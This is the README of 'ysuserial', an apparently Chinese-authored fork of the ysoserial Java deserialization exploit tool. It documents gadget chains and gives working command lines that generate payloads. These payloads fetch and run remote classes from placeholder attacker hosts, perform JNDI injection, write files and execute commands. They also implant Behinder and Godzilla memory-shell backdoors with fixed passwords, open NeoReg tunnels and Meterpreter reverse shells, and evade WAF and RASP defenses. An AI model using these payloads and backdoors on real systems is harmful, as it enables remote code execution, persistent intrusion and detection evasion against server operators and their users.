






# [  ysuserial  ]

[中文文档](./ReadMe_CN.md)

This project is called " ysoserial for su18 ", AKA "**ysuserial**". It's an enhanced project based on original [ysoserial](https://github.com/frohoff/ysoserial). In general, the following functions are implemented in this project:

1. **Multiple Dependency Versions For Existing Gadget**: the original gadget chain may cover only one or few versions of dependency library, when facing different version, exploit could be ineffective due to inconsistency of `serialVersionUID`;
2. **Loads Of New Gadget Chains**: Add mang new chains and expanded exploit methods;
3. **Customized Exploitation Techniques**: the original ysoserial only uses `java.lang.Runtime` to execute system commands, ysuserial provides several means to exploit. and supports the execution of arbitrary code;
4. **Gadget Chain Detect**: Using `URLDNS` detect existing dependency,say goodbye to blind test;
5. **Memory Shell**: For some chains, ysuserial provides injecting memory shell for common middlerware such as Spring/Tomcat/Jetty/JBoss/Resin/Websphere, injected shell provides functions like `commands execution`/`Behinder management`/`Godzilla management`/`WebSocket communication`, including `Tomcat Command Execution Echo`/`Neoreg Tunnel Shell`/`Tomcat Executor Shell`/`Tomcat Upgrade Shell`/`RMI Shell`;
6. **Defense Bypass**: In some scenarios, the target system deploys defensive systems like WAF/RASP, these systems could intercept the attack through traffic/behavior characteristics. Ysuserial erases these characteristics and provides several means to obscure Traffic Analysis/RASP Hook, for example: 
   - Warp payload with random `Collection` Object and fill in random characters;
   - Warp payload with loop nesting `LinkedList`;
   - Insert `TC_RESET` in serialized data stream;
   - Call native methods using Reflection;
   - Evade detection by using BootstrapClassLoader to load malicious class;
   - ......
7. **Cooperation With MSF/CS**: Creating a reverse shell with Metasploit/CS directly;
8. **Minimize Payloads' Size**: Shorten serialized payload length by removing compiled bytecode line number/dynamically adding class bytecode/....


Screenshot: 

```text
$ java -jar ysuserial-<version>-su18-all.jar
            _.-^^---....,,--
       _--                  --_
      <                        >)
      |       Y Su Serial ?     |
       \._                   _./
          ```--. . , ; .--'''
                | |   |
             .-=||  | |=-.
             `-=#$%&%$#=-'
                | ;  :|
       _____.,-#%&$@%#&#~,._____
     _____.,[ 暖风熏得游人醉 ],._____
     _____.,[ 直把杭州作汴州 ],._____
[root]#~  A Mind-Blowing Tool Collected By [ su18@javaweb.org ]
[root]#~  Shout Out to Yzmm / Shxjia / Y4er / N1nty / C0ny1 / Phith0n / Kezibei
[root]#~  AND OF COURSE TO THE All MIGHTY @frohoff  
[root]#~  Usage: java -jar ysoserial-[version]-su18-all.jar -g [payload] -p '[command]' [options]
[root]#~  Available payload types:
Oct 18, 2022 10:24:43 PM org.reflections.Reflections scan
INFO: Reflections took 268 ms to scan 1 urls, producing 26 keys and 207 values 
     Payload                  Authors                                Dependencies                                                                                                                                                                                        
     -------                  -------                                ------------                                                                                                                                                                                        
     AspectJWeaver            @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
     BeanShell1               @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
     C3P0                     @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
     C3P02                                                           c3p0:0.9.5.2, mchange-commons-java:0.2.11, tomcat:8.5.35                                                                                                                                            
     C3P03                                                           c3p0:0.9.5.2, mchange-commons-java:0.2.11, tomcat:8.5.35, groovy:2.3.9                                                                                                                              
     C3P04                                                           c3p0:0.9.5.2, mchange-commons-java:0.2.11, tomcat:8.5.35, snakeyaml:1.30                                                                                                                            
     C3P092                   @mbechler                              c3p0:0.9.2-pre2-RELEASE ~ 0.9.5-pre8, mchange-commons-java:0.2.11                                                                                                                                   
     Click1                   @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
     Clojure                  @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
     CommonsBeanutils1        @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsBeanutils1183NOCC                                        commons-beanutils:1.8.3                                                                                                                                                                             
     CommonsBeanutils2                                               commons-beanutils:1.9.2                                                                                                                                                                             
     CommonsBeanutils2NOCC                                           commons-beanutils:1.8.3, commons-logging:1.2                                                                                                                                                        
     CommonsBeanutils3                                               commons-beanutils:1.9.2, commons-collections:3.1                                                                                                                                                    
     CommonsBeanutils3183                                            commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
     CommonsBeanutils4                                               commons-beanutils:1.9.2, commons-collections:3.1                                                                                                                                                    
     CommonsCollections1      @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections10                                            commons-collections:3.2.1                                                                                                                                                                           
     CommonsCollections11                                                                                                                                                                                                                                                
     CommonsCollections2      @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections3      @frohoff                               commons-collections:3.1                                                                                                                                                                             
     CommonsCollections4      @frohoff                               commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections5      @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6      @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections6Lite  @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
     CommonsCollections7      @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
     CommonsCollections8      @navalorenzo                           commons-collections4:4.0                                                                                                                                                                            
     CommonsCollections9                                             commons-collections:3.2.1                                                                                                                                                                           
     FileUpload1              @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                                                                                                            
     Groovy1                  @frohoff                               groovy:2.3.9                                                                                                                                                                                        
     Hibernate1               @mbechler                              hibernate-core:4.3.11.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2, dom4j:1.6.1                                                                                     
     Hibernate2               @mbechler                              hibernate-core:4.3.11.Final, aopalliance:1.0, jboss-logging:3.3.0.Final, javax.transaction-api:1.2, dom4j:1.6.1                                                                                     
     JBossInterceptors1       @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
     JRE8u20                  @frohoff                                                                                                                                                                                                                                   
     JRE8u20_2                                                                                                                                                                                                                                                           
     JRMPClient               @mbechler                                                                                                                                                                                                                                  
     JRMPClient_Activator     @mbechler                                                                                                                                                                                                                                  
     JRMPClient_Obj           @mbechler                                                                                                                                                                                                                                  
     JRMPListener             @mbechler                                                                                                                                                                                                                                  
     JSON1                    @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1           @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
     Jdk7u21                  @frohoff                                                                                                                                                                                                                                   
     Jdk7u21variant           @potats0                                                                                                                                                                                                                                   
     Jython1                  @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
     MozillaRhino1            @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
     MozillaRhino2            @_tint0                                js:1.7R2                                                                                                                                                                                            
     Myfaces1                 @mbechler                                                                                                                                                                                                                                  
     Myfaces2                 @mbechler                              myfaces-impl:2.2.9, myfaces-api:2.2.9, apache-el:8.0.27, javax.servlet-api:3.1.0, mockito-core:1.10.19, hamcrest-core:1.1, objenesis:2.1                                                            
     ROME                     @mbechler                              rome:1.0                                                                                                                                                                                            
     ROME2                                                           rome:1.0                                                                                                                                                                                            
     RenderedImage                                                   jai-codec-1.1.3                                                                                                                                                                                     
     SignedObject                                                                                                                                                                                                                                                        
     Spring1                  @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
     Spring2                  @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
     Spring3                                                         spring-tx:5.2.3.RELEASE, spring-context:5.2.3.RELEASE, javax.transaction-api:1.2                                                                                                                    
     URLDNS                   @gebl                                                                                                                                                                                                                                      
     Vaadin1                  @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
     Wicket1                  @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                                 


Recommended Usage: -g [payload] -p '[command]' -dt 1 -dl 50000 -o -i
If you want your payload being extremely short，you could just use:
java -jar ysoserial-[version]-su18-all.jar -g [payload] -p '[command]'
usage: ysoserial-[version]-su18-all.jar [-dl <arg>] [-dt <arg>] [-g <arg>]
       [-h] [-ht <arg>] [-i] [-j] [-o] [-p <arg>] [-u <arg>]
 -dl,--dirty-length <arg>   Length of dirty data when using type 1 or
                            3/Counts of Nesting loops when using type 2
 -dt,--dirty-type <arg>     Using dirty data to bypass WAF，type: 1:Random
                            Hashable Collections/2:LinkedList
                            Nesting/3:TC_RESET in Serialized Data
 -g,--gadget <arg>          Java deserialization gadget
 -i,--inherit               Make payload inherit AbstractTranslet or not
 -j,--jboss                 Using JBoss
                            ObjectInputStream/ObjectOutputStream
 -o,--obscure               Using reflection to bypass RASP
 -p,--parameters <arg>      Gadget parameters
 -u,--url <arg>             MemoryShell binding url pattern,default
                            [/su18]
```

# Exploit

## For ChainedTransformer

Gadget commons-collections is the most popular java collections framework, and most-likely gadgets to be exploited.

Therefore ysuserial provides many mind-blowing attack means other than just using `Runtime`:

- TS: Thread Sleep - Using `Thread.sleep()` to check whether there is a deserialization vulnerability, e.g. `TS-10`
- RC: Remote Call - Using `URLClassLoader.loadClass()` to call the remote malicious class and initialize, e.g. `RC-http://xxxx.com/evil.jar#EvilClass`
- WF: Write File - Using `FileOutputStream.write()` to write file, e.g. `WF-/tmp/shell#d2hvYW1p`
- PB: ProcessBuilder Using `ProcessBuilder.start()` to execute command, e.g. `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p` on different os
- SE: ScriptEngine - Using `ScriptEngineManager.getEngineByName('js').eval()` to evaluate JS script language, e.g. `SE-d2hvYW1`
- DL: DNS LOG - Using `InetAddress.getAllByName()` to trigger dns log, e.g. `DL-xxxdnslog.cn`
- HL: HTTP LOG - Using `URL.getContent()` to trigger http log, e.g. `HL-http://xxx.com`
- BC: BCEL Classloader - Using `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL 类字节码,e.g. `BC-$BCEL$xxx`
- JD: JNDI Lookup - Using `InitialContext.lookup()` to trigger JNDI injection, e.g. `JD-ldap://xxx/xx`
- Other: Just Command Execution - Using `Runtime.getRuntime().exec()` to execute command, e.g. `whoami`

It should be noted that when using `PB` execute system command/using `WF` write local file/using `SE` to evaluate script language, you need to **base64 encode** the command.

**ProcessBuilder Command Execution:

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```


**DNSLOG**:

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'DL-xxx.org'
```


**Script Engine Evaluate(JS)**:

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```


**File Writing**:

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```



**JNDI Injection**:

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```


**Basic Runtime Command Execution**:

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'
```


## For TemplatesImpl

If gadget chain uses **TemplatesImpl** to load malicious class bytecode, ysuserial provides many mind-blowing attack means other than just using `Runtime`.

### Enhanced Exploit-Memory Shell

Ysuserial provides serival **enhanced exploit**  named with prefix `EX-`, including memory shell/NeoReg tunnel/Command Execution Echo .etc:

TomcatEcho:

- `EX-TomcatEcho`: Locate request object with specific Header value in http threads group, execute command carried by request and put result back in the response.

Tomcat Listener NeoReg Tunnel:

- `EX-TLNeoRegFromThread`:Injecting **Tomcat Listener NeoReg Tunnel** Memory Shell through **Thread Context**

Memory Shell:

- `EX-MS-SpringInterceptorMS-...`:Injecting **Spring Interceptor** Memory Shell
- `EX-MS-TFMSFromJMX-...`:Injecting **Tomcat Filter** Memory Shell through **JMX MBeans**
- `EX-MS-TFMSFromThread-...`:Injecting **Tomcat Filter** Memory Shell through **Thread Context**
- `EX-MS-TLMSFromThread-...`:Injecting **Tomcat Listener** Memory Shell through **Thread Context**
- `EX-MS-TSMSFromJMX-...`:Injecting Tomcat Servlet Memory Shell through **JMX MBeans**
- `EX-MS-TSMSFromThread-...`:Injecting **Tomcat Servlet** Memory Shell through **Thread Context**
- `EX-MS-JBFMSFromContext-...`:Injecting **JBoss/Wildfly Filter** Memory Shell through **Thread Context**
- `EX-MS-JBSMSFromContext-...`:Injecting **JBoss/Wildfly Servlet** Memory Shell through **Thread Context**
- `EX-MS-JFMSFromJMX-...`:Injecting **Jetty Filter** Memory Shell through **JMX MBeans**
- `EX-MS-JSMSFromJMX-...`:Injecting **Jetty Servlet** Memory Shell through **JMX MBeans**
- `EX-MS-RFMSFromThread-...`:Injecting **Resin Filter** Memory Shell through **Thread Context**
- `EX-MS-RSMSFromThread-...`:Injecting **Resin Servlet** Memory Shell through **Thread Context**
- `EX-MS-WSFMSFromThread-...`:Injecting **Websphere Filter** Memory Shell through **Thread Context**
- `EX-MS-RMIBindTemplate-...`:**RMI Memory Shell**

At present, Ysuserial supports injecting memory shell on Tomcat/Jetty/JBoss/Wildfly/Websphere/Resin/Spring, there are still some middleware stay unsupported:

- GlassFish embeds with Tomcat;
- Apusic ≈ GlassFish, only difference on package name;
- BES ≈ Tomcat, only difference on package name;
- InforSuite ≈ Tomcat, only difference on package name;
- Weblogic not supported, to be continued...

You can choose which type of Memory Shell you perfer, such as Behinder Memory Shell/Godzilla Base64 Memory Shell/Godzilla RAW Memory Shell/Command Execution Echo Memory Shell:

- `EX-MS-TSMSFromThread-bx`: Behinder Memory Shell
- `EX-MS-TSMSFromThread-gz`: Godzilla Base64 Memory Shell
- `EX-MS-TSMSFromThread-gzraw`: Godzilla RAW Memory Shell
- `EX-MS-TSMSFromThread-cmd`: Command Execution Echo Memory Shell

Ysoserial also suppuort Tocmat WebSocket/Upgrade/Executor Memory Shell:

- `EX-MS-TWSMSFromThread`: Command Execution Echo WebSocket Memory Shell
- `EX-MS-TEXMSFromThread`: Command Execution Echo Executor Memory Shell
- `EX-MS-TUGMSFromJMX`: Command Execution Echo Upgrade Memory Shell

For some unconventional conditions, Ysuserial also provides a zero-library-needed RMI memory shell. By binding a malicious class to the RMI registry, you can call and execute commands at any time:

- `EX-MS-RMIBindTemplate-1100-su18`: RMI Memory Shell

All memory shell supported by Ysuserial have been tested, refer to [https://github.com/su18/MemoryShell](https://github.com/su18/MemoryShell)

### Custom Code

If you are not satisfied with ysuserial, you could exploit custom code, your code will be loaded and initialization by ClassLoader on target server. 

e.g.

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections3 -p LF-/tmp/evil.class-org.su18.Evil
```


### Command Execution

Just basic command execution, not much to tell.

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils2 -p 'open -a Calculator.app'
```


## Detect Gadget Chain

Sometime we find a deserialize endpoint exposure to the internet, but we don't know which gadget exists in target system.

To avoid random/wild exploit, ysuserial provides the function of detecting existing gadget chains based on `URLDNS`. 

Basicially in the following tables:

| DNSLOG keyword                              | Gadget Chain            | Key Class                                                    | Note                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />ver<=3.2.1                  |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4<br />ver 4-4.0                         |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x: -3490850999041592962<br />1.9x: -2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8: 7387108436934414104<br />0.9.5pre9-0.9.5.5: 7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver, need cc31                                     |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4: 4949939576606791809<br />2.0b5: 4041428789013517368<br />2.0.b6 non serializable |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x: -8137949907733646644<br />2.3.x: 1228988487386910280  |
| becl                                        | Becl                    | com.sun.org.apache.bcel.internal.util.ClassLoader            | JDK<8u251                                                    |
| Jdk7u21                                     | Jdk7u21                 | com.sun.corba.se.impl.orbutil.ORBClassLoader                 | JDK<=7u21                                                    |
| JRE8u20                                     | JRE8u20                 | javax.swing.plaf.metal.MetalFileChooserUI\$DirectoryComboBoxModel\$1 | 7u25<=JDK<=8u20<br />8u25 and JDK<=7u21 could be false positive<br /> |
| linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux version                                        |
|                                             | all                     |                                                              | all                                                          |

This gadget is a complete copy of kezibei'd project URLDNS.

There are four keys corresponding to four different detection methods:

- all:all gadget chains;
- common: common used chains including CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux;
- specific keywords: gadget chain keywords like `CommonsCollections24:xxxx.dns.log` ;
- `null`: no detection, just normal URLDNS.

e.g.

```shell
java -jar ysuserial-<version>-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```


## Expansion of Other Chains

As for `BeanShell` and `Clojure`, these are two gadgets based on script language dynamic execution.

Ysuserial provides multiple means of attack except for `Runtime` command execution:

- `TS`: Thread Sleep - Using `Thread.sleep()` to check whether there is a deserialization vulnerability, e.g. `TS-10`;
- `RC`: Remote Call - Using `URLClassLoader.loadClass()` to call the remote malicious class and initialize, e.g. `RC-http://xxxx.com/evil.jar#EvilClass`;
- `WF` :Write File - Using `FileOutputStream.write()` to write file, e.g. `WF-/tmp/shell#123`;
- Other: Basic command execution - Using `ProcessBuilder().start()` to execute command, e.g. `whoami`.

## MSF/CS

Using Java reverse TCP Meterpreter payload,  and you can also move session to Cobalt Strike.


# Memory Shell

For all kinds of memory shells, ysuserial provides a universal usage.

## Command Execution

First of all, to prevent calling memory shell from anyone, there is a verification above all memshell functions, you need to add  `Referer: https://su18.org/` to your request header, and then call memshell functions: 

1.  Case <font color="orange">CMD</font> Memory Shell, shell will take command form header `X-Token-Data`, execute it and echo result in response;
   

2. Case <font color="orange">Behinder</font> Memory Shell, you could manage it with Behinder, password `su18yyds`;

   

3. Case <font color="orange">Godzilla</font> Memory Shell, you could manage it with Godzilla, pass is `su18`, key is `su18yyds`, ysuserial support both `RAW` and `Base64` encryptor;
   
   
   
4. Case <font color="orange">WebSocket</font> Memory Shell, exploit it with WebSocket client, path is `/su18`;

   

5. Case <font color="orange">Tomcat Executor</font> Memory Shell, shell will take command form header `su18`, execute it and echo Base64-encoded result in header `Server-token`;
   
   
   
6. Case <font color="orange">Tomcat Upgrade</font> Memory Shell, you need to set header `Connection: Upgrade` and `Upgrade: su18`, shell will take command form header `su18`, execute it and echo result in response.

   


## NeoReg Tunnel

`TLNeoRegFromThread` injects a NeoReg tunnel. Project: https://github.com/L-codes/Neo-reGeorg

Use a command similar to the following to establish a tunnel connection:

```shell
python neoreg.py -k su18 -u http://xxx.com/ -H 'Referer: https://su18.org/'
```


## TomcatEcho

`TomcatEcho` will locate request object with specific Header value in http threads group, execute command carried by request and put result back in the response.

Put the command in request header `X-Token-Data` , and result will be in the response.



## RMI Memory Shell

`RMIBindTemplate`  starts a RMI registry on target server (if none) and bind(actually rebind) a backdoor class, using  `org.su18.ysuserial.exploit.RMIBindExploit` to call the backdoor class.



# Bypass

## Traffic Analysis Bypass

WAF will parse and detect keywords/key characteristics such as `Package Name`/`Class Name`/`Evil Method Name`. When engaging a malicious malformation request, WAF will drop it.

However, due to the performance impact, these traffic-parsing device will not parse request without limitation, there is usually a threshold value for ` parsing-time` or  `parsing-size` , if the threshold value is exceeded, the check will be aborted.

So in certain circumstances, we could fill serialized data stream with dirty data to bypass detection.

Using `-dt` & `-dl` , e.g.

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils1 -p 'EX-MS-TEXMSFromThread' -dt 1 -dl 50000
```

## RASP Bypass

When exploiting vulnerabilities, the attackers always use `java.lang.Runtime`/`java.net.URLClassLoader`  .etc, these classes have been abused by attckers, and many RASP has implanted hooks in them and can block the dangrous method call easily and simply.

So I use some techniques to bypass RASP Hook, such as:

- Call native method using java reflection;
- Execute malicious code in new thread;
- Evade detection by using BootstrapClassLoader to load malicious class;
- .......

If you feel interested in RASP bypass, you can dive into my code and find many fascinating tricks.

Ysuserial can generate class name dynamiclly, there will be no default ones.

Using `-o` , e.g.

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils1 -p 'EX-MS-TEXMSFromThread' -o
```

# Reference

This project refers to several amazing projects, may include but not limited to:

- [https://github.com/woodpecker-framework/ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)
- [https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)
- [https://github.com/kezibei/Urldns/](https://github.com/kezibei/Urldns/)

You could check them out by youself.

# TODO

These following functions will be updated in the foreseeable future: 

- CS shellcode Injection;
- Non-File Java Agent Injection;
- Defense Bypass;
- ......

If you have any other ideas or needs, please, enlighten me!

# Question & Discussion

**All Function** and **ALL Gadget Chains** in this project has been tested by myself, but considering the complex environment in reality,there will always be mistakes, no one is exempt from making mistakes, right?

Please feel free to submit issues, fork the repository and send pull requests!

You're welcome to add my personal wechat `K_MnO4` , or email  su18@javaweb.org.

And if you have any other Java-Security-Releated-Questions, you could join our wechat group [JavaSec](https://javasec.org/) to discuss.

If you had problem with wechat, please join our [discord channel](https://discord.gg/eNwKUp3Swj) (Response could be real slow).


# Extra

If you encounter a situation where the dependencies cannot be found, you could use `-Djava.ext.dirs` to specify Library Path:

```shell
java -Djava.ext.dirs=lib -jar ysuserial-<version>-su18-all.jar -g CommonsBeanutils1 -p "EX-MS-TWSMSFromThread"
```